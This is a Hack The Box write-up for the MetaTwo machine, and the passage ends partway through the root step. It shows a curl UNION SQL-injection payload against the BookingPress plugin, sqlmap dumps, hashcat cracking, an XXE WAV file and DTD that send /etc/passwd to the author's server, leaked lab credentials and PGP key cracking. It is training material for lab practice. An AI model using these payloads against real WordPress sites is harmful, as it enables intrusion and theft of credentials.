







# Summary
[MetaTwo](https://app.hackthebox.com/machines/MetaTwo) starts with a basic WordPress site that's running a plugin vulnerable to SQL injection. I am able to get a password hash that I can crack and gain access to the WordPress admin panel. The version of WordPress in use is vulnerabile to an XXE attack. I am able to leak the `wp-config` file and find the password to the FTP server. The FTP server contains a file with hardcoded credentials for a user on the box. Once on the box I find an instance of Passpie that contains the root password. I am able to crack the PGP key protecting the password, and use the password to escalate to root.
# Nmap
First things first I run an nmap scan. I first scan with `-p-` to scan all ports and `-v` to reveal open ports as they're found. I then run a scan with default scripts `-sC` and enumerate versions with `-sV` on the open ports found.
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-generator: WordPress 5.6.2
|_http-server-header: nginx/1.18.0
|_http-title: MetaPress &#8211; Official company site
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I find 3 ports open, FTP on port 21, SSH on port 22, and HTTP running nginx on port 80.
# HTTP Port 80
Browsing to the site on port 80, I find a pretty basic looking Wordpress site.



There's a link to the `/events` page. This looks like there's definitely some sort of WordPress plugin at play. Viewing the source of the page confirms this. Scrolling further down I also find the version of WordPress in use: 5.6.2. I'll note this down in case it comes into play.





## SQLi via Vulnerable plugin
I decide to look into the plugin I found. I find an exploit for it tracked under [CVE-2022-0739](https://nvd.nist.gov/vuln/detail/CVE-2022-0739)for SQL injection. I also find a [POC from WpScan](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/), as well as a [python script POC on github](https://github.com/destr4ct/CVE-2022-0739). The vulnerability happens because user supplied data from a POST request is not properly sanitized before being used in an SQL query from the `bookingpress_front_get_category_services` ajax action. 

For the python POC to work I just need to grab the nonce. I can do this by intercepting the request to the `/events` page in Burpsuite. The POC automates the SQL injection to dump the database, revealing usernames and password hashes for `admin` and `manager`.


```bash
┌──(kali㉿Kali)──[19:17:45]──[~/htb/Machines/MetaTwo]
└─$ python3 SQLi.py -u http://metapress.htb/ -n '1b4e97d0c7' 
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

This was great but I wanted a better understanding of the vuln and  more hands on approach, so I looked into the POC from WpScan. I modify the command slightly to pipe the output into `jq` and it works.
```bash
┌──(kali㉿Kali)──[22:36:45]──[~/htb/Machines/MetaTwo]
└─$ curl -s http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=1b4e97d0c7&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' | jq .
[
  {
    "bookingpress_service_id": "10.5.15-MariaDB-0+deb11u1",
    "bookingpress_category_id": "Debian 11",
    "bookingpress_service_name": "debian-linux-gnu",
    "bookingpress_service_price": "$1.00",
    "bookingpress_service_duration_val": "2",
    "bookingpress_service_duration_unit": "3",
    "bookingpress_service_description": "4",
    "bookingpress_service_position": "5",
    "bookingpress_servicedate_created": "6",
    "service_price_without_currency": 1,
    "img_url": "http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"
  }
]
```
I add `-x http://127.0.0.1:8080` to my curl requset so that it will be proxied to Burpsuite. In burp I right click and hit "copy to file" and save it as `ajax.req`. I edit the file in vim to replace the `total_service` paramter value with  number. I then use this file with `SQLMap` to automate the process.
```bash
┌──(kali㉿Kali)──[22:51:04]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service          
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   'https://sqlmap.org

<...SNIP...>

sqlmap identified the following injection point(s) with a total of 68 HTTP(s) requests:
---
Parameter: total_service (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=1b4e97d0c7&category_id=31&total_service=333) AND (SELECT 5342 FROM (SELECT(SLEEP(5)))Upoa) AND (1539=1539

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=1b4e97d0c7&category_id=31&total_service=333) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71786a7871,0x59554f6c59646c6e4f4e434f7357534a58796b5962777666706f74475a70416675474e4a68726e63,0x71787a6b71),NULL-- -
```
From here I first enumarte the databases with the `--dbs` flag, then the tables with the `--tables` flag, then the columns with the `--columns` flag. Finally, I `-dump` two columns called `user_nicename` and `user_pass` from the `wp_users` table in the `blog` database.
```bash
┌──(kali㉿Kali)──[22:54:51]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch --dbs

<...SNIP...>

available databases [2]:
[*] blog
[*] information_schema

┌──(kali㉿Kali)──[22:56:53]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch -D blog --tables

<...SNIP...>

Database: blog
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| wp_bookingpress_categories           |
| wp_bookingpress_customers            |
| wp_bookingpress_customers_meta       |
| wp_bookingpress_customize_settings   |
| wp_bookingpress_debug_payment_log    |
| wp_bookingpress_default_daysoff      |
| wp_bookingpress_default_workhours    |
| wp_bookingpress_entries              |
| wp_bookingpress_form_fields          |
| wp_bookingpress_notifications        |
| wp_bookingpress_payment_logs         |
| wp_bookingpress_services             |
| wp_bookingpress_servicesmeta         |
| wp_bookingpress_settings             |
| wp_commentmeta                       |
| wp_comments                          |
| wp_links                             |
| wp_options                           |
| wp_postmeta                          |
| wp_posts                             |
| wp_term_relationships                |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+

┌──(kali㉿Kali)──[22:57:04]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch -D blog -T wp_users --columns

<...SNIP...>

Database: blog
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+

┌──(kali㉿Kali)──[22:59:12]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch -D blog -T wp_users -C user_nicename,user_pass --dump

<...SNIP...>

Database: blog
Table: wp_users
[2 entries]
+---------------+------------------------------------+
| user_nicename | user_pass                          |
+---------------+------------------------------------+
| admin         | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. |
| manager       | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 |
+---------------+------------------------------------+
```
This gets me 2 password hashes for `admin` and for `manager`. I copy these hashes to my host (for better gpu performance) and run hashcat on them. The hash for `manager` cracks, but not admin.
```bash
   ┌──(clayton㉿Nucleus)──[23:04:56]──[~/hash]
└─$ hashcat -a 0 --username hashes /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -O -w 3
hashcat (v6.2.6) starting in autodetect mode

<...SNIP...>

$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar     
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 400 (phpass)
Hash.Target......: hashes
Time.Started.....: Wed Apr 10 23:05:14 2024 (8 secs)
Time.Estimated...: Wed Apr 10 23:05:22 2024 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/opt/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2062.9 kH/s (46.54ms) @ Accel:128 Loops:1024 Thr:256 Vec:1
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new), 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 3226/28688770 (0.01%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:7168-8192
Candidate.Engine.: Device Generator
Candidates.#1....: 047052287 -> squarenut
Hardware.Mon.#1..: Temp: 41c Fan: 36% Util: 68% Core:1980MHz Mem:7000MHz Bus:8

<...SNIP...>

┌──(clayton㉿Nucleus)──[23:05:23]──[~/hash]
└─$ hashcat -a 0 --username hashes /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -O -w 3 --show

<...SNIP...>

manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

With this, I can login to `manager's` dashboard from `/wp-admin`



## XXE
Once logged in, I poke around for awhile before checking for vulnerabilities in this version of WordPress, 5.6.2. I find a very interesting vulnerability report from [WPSec](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/) That involves an XML External Entity (XXE) attack via a malicious `.wav` file, which is an audio file. Very interesting. The linked blog post goes into great detail about the vulnerability and I would recommend giving it a read.

To exploit this vulnerability I need to create 2 files. The first one is `payload.wav`. I use the command from he blog post, replacing their IP with mine. This file starts with the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) of a `.wav` file, followed by an XML body with an XXE payload. This should trick any MIME type checks. As you can see, running `file` on it shows that it is a WAVE audio file.
```bash
┌──(kali㉿Kali)──[23:16:32]──[~/htb/Machines/MetaTwo]
└─$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.78:8001/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav

┌──(kali㉿Kali)──[23:16:46]──[~/htb/Machines/MetaTwo]
└─$ file payload.wav                                 
payload.wav: RIFF (little-endian) data, WAVE audio

```
The XXE payload will reach back to my server for a `.dtd` file. A `.dtd` (Document Type Definition) file is used to define the structure, elements, and attributes of an XML file, it's essentially a blueprint, ensuring the XML file adheres to a specified format and rules. 

I now need to create that `.dtd` file, once again modifying the IP and port:
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.78:8001/?p=%file;'>" >
```
I start a webserver on port 8001 in the same location as the `.dtd` file, and upload my `payload.wav` to the site. I get back a long string of base64, which decodes into the `/etc/passwd` file. Success!





After trying some default location for the web directory, I come up with nothing. I then try to read the Nginx `.conf` files. I'm able to read `/etc/nginx/sites-enabled/default` which gives me the web root: `/var/www/metapress.htb/blog`. From here I can read the `wp-config.php` file and find a bunch of juicy info including `MySQL` and `FTP` creds, as well as a bunch of `tokens`
```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```
## FTP
The ftp server has 2 directories, `blog` and `mailer`. `Blog` is the same directory as the site. 
```bash
ftp> cd blog
250 CWD command successful
ftp> ls -la
229 Entering Extended Passive Mode (|||54164|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 .
drwxr-xr-x   4 0        metapress.htb     4096 Oct  5  2022 ..
-rw-r--r--   1 metapress.htb metapress.htb      633 Jun 23  2022 .htaccess
-rw-r--r--   1 metapress.htb metapress.htb      405 Feb  6  2020 index.php
-rw-r--r--   1 metapress.htb metapress.htb    19915 Feb 12  2020 license.txt
-rw-r--r--   1 metapress.htb metapress.htb     7278 Jun 26  2020 readme.html
-rw-r--r--   1 metapress.htb metapress.htb     7101 Jul 28  2020 wp-activate.php
drwxr-xr-x   9 metapress.htb metapress.htb     4096 Oct  5  2022 wp-admin
-rw-r--r--   1 metapress.htb metapress.htb      351 Feb  6  2020 wp-blog-header.php
-rw-r--r--   1 metapress.htb metapress.htb     2328 Oct  8  2020 wp-comments-post.php
-rw-r--r--   1 metapress.htb metapress.htb     2032 Jun 23  2022 wp-config.php
-rw-r--r--   1 metapress.htb metapress.htb     2913 Feb  6  2020 wp-config-sample.php
drwxr-xr-x   6 metapress.htb metapress.htb     4096 Oct  5  2022 wp-content
-rw-r--r--   1 metapress.htb metapress.htb     3939 Jul 30  2020 wp-cron.php
drwxr-xr-x  25 metapress.htb metapress.htb    12288 Oct  5  2022 wp-includes
-rw-r--r--   1 metapress.htb metapress.htb     2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--   1 metapress.htb metapress.htb     3300 Feb  6  2020 wp-load.php
-rw-r--r--   1 metapress.htb metapress.htb    49831 Nov  9  2020 wp-login.php
-rw-r--r--   1 metapress.htb metapress.htb     8509 Apr 14  2020 wp-mail.php
-rw-r--r--   1 metapress.htb metapress.htb    20975 Nov 12  2020 wp-settings.php
-rw-r--r--   1 metapress.htb metapress.htb    31337 Sep 30  2020 wp-signup.php
-rw-r--r--   1 metapress.htb metapress.htb     4747 Oct  8  2020 wp-trackback.php
-rw-r--r--   1 metapress.htb metapress.htb     3236 Jun  8  2020 xmlrpc.php
```
I grab the `.htaccess` to check if there's creds in it, no dice. I check if I can write to the directory because if I can, I can write a webshell and get command execution that way, but also no dice. 
```bash
ftp> put test.txt
local: test.txt remote: test.txt
ftp: Can't open `test.txt': No such file or directory
```
`Mailer` looks like a php email app. 
```bash
ftp> cd mailer
250 CWD command successful
ftp> ls -la
229 Entering Extended Passive Mode (|||21529|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 .
drwxr-xr-x   4 0        metapress.htb     4096 Oct  5  2022 ..
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
```
I grab `send_email.php` and inside I find creds for  `jnelson`, from reading `/etc/passwd` earlier, I know that this is a valid user on the box. I try this password for SSH and get in!
```php
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}
```

From reading `/etc/passwd` earlier, I know `jnelson` is the primary user on the box, I try his email password with SSH and it gets me in!
## Root Shell
`Jnelson` has a folder called `.passpie` in the home directory. I don't think I've seen this before, it's out of the ordinary. This has some files containing pgp messages as well as public and private pgp keys.[Passpie](https://github.com/marcwebbie/passpie) is an open source CLI password manager app written in python. I search for vulns in `passpie` but get nothing. 

I run `passpie` and see that it contains 2 passwords, one for `jnelson` and one for `root`. Any command that might get me the password in cleartext needs a password, which is to be expected.
```bash
jnelson@meta2:~/.passpie$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
jnelson@meta2:~/.passpie$ passpie --help
Usage: passpie [OPTIONS] COMMAND [ARGS]...

Options:
  -D, --database TEXT  Database path or url to remote repository
  --autopull TEXT      Autopull changes from remote pository
  --autopush TEXT      Autopush changes to remote pository
  --config PATH        Path to configuration file
  -v, --verbose        Activate verbose output
  --version            Show the version and exit.
  --help               Show this message and exit.

Commands:
  add       Add new credential to database
  complete  Generate completion scripts for shells
  config    Show current configuration for shell
  copy      Copy credential password to clipboard/stdout
  export    Export credentials in plain text
  import    Import credentials from path
  init      Initialize new passpie database
  list      Print credential as a table
  log       Shows passpie database changes history
  purge     Remove all credentials from database
  remove    Remove credential
  reset     Renew passpie database and re-encrypt...
  search    Search credentials by regular expressions
  status    Diagnose database for improvements
  update    Update credential
jnelson@meta2:~/.passpie$ passpie copy root
Passphrase: 
Aborted!
```
I can extract hashes from pgp keys using `JohnTheRipper`. I copy the `.keys` file from the `.passpie` directory back to my box.
```bash
┌──(kali㉿Kali)──[23:43:53]──[~/htb/Machines/MetaTwo]
└─$ scp jnelson@metapress.htb:~/.passpie/.keys keys
jnelson@metapress.htb's password: 
.keys                                                                                        100% 5243    29.1KB/s   00:00
```
I remove the public key block from the file and run `gpg2john` on it and get a hash.
```bash
┌──(kali㉿Kali)──[23:53:43]──[~/htb/Machines/MetaTwo]
└─$ gpg2john keys

File keys
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::keys
```
I copy the hash to my host and run `john`. It cracks almost immediately.
```bash
┌──(plus1059㉿Nucleus)──[23:56:50]──[~/hash]
